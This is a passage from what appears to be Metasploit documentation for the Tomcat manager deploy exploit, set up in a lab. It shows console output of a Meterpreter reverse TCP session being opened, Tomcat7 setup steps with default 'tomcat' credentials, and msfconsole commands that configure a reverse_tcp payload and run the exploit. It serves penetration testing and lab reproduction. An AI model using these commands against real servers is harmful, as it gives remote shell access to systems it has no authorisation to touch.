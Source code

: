     [*] Started reverse TCP handler on 192.168.2.117:4444
    [*] Using manually select target "Linux x86"
    [*] Uploading 1545 bytes as 9bj4IYa66cSpdK.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing /9bj4IYa66cSpdK/g3Yxbv3.jsp...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (335800 bytes) to 192.168.2.156
    [*] Undeploying 9bj4IYa66cSpdK ...
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.156:40020) at 2017-01-11 21:18:31 -0500

    meterpreter > sysinfo
    Computer     : Ubuntu14.04
    OS           : Ubuntu 14.04 (Linux 4.2.0-27-generic)
    Architecture : x64
    Meterpreter  : x86/linux
    ```

### Tomcat7 (7.0.68) - Ubuntu server 16.04 64bit
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  Each sub role the user has will change which `path` variable for exploitation.

#### Setup
1. Install Tomcat and dependencies: `apt-get install tomcat7 tomcat7-admin`

#### text/script Interface Exploitation

1. Edit `/etc/tomcat7/tomcat-users.xml` to add:

    ```
    <role rolename="manager-script"/>
    <user username="tomcat" password="tomcat" roles="manager-script"/>
    ```

2. Restart Tomcat: `sudo service tomcat7 restart`
  1. To verify the permissions are all set correctly, browse to `http://192.168.2.118:8087/manager/text/deploy`, and you should see `FAIL - Invalid parameters supplied for command [/deploy]
` as opposed to `403 Access Denied`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.118
    rhost => 192.168.2.118
    msf exploit(tomcat_mgr_deploy) > set rport 8087
    rport => 8087
    msf exploit(tomcat_mgr_deploy) > set target 3
    target => 3
    msf exploit(tomcat_mgr_deploy) > set payload linux/x86/meterpreter/reverse_tcp
    payload => linux/x86/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_deploy) > exploit
    msf exploit(tomcat_mgr_deploy) > set path /manager/text
    path => /manager/text
    msf exploit(tomcat_mgr_deploy) > exploit
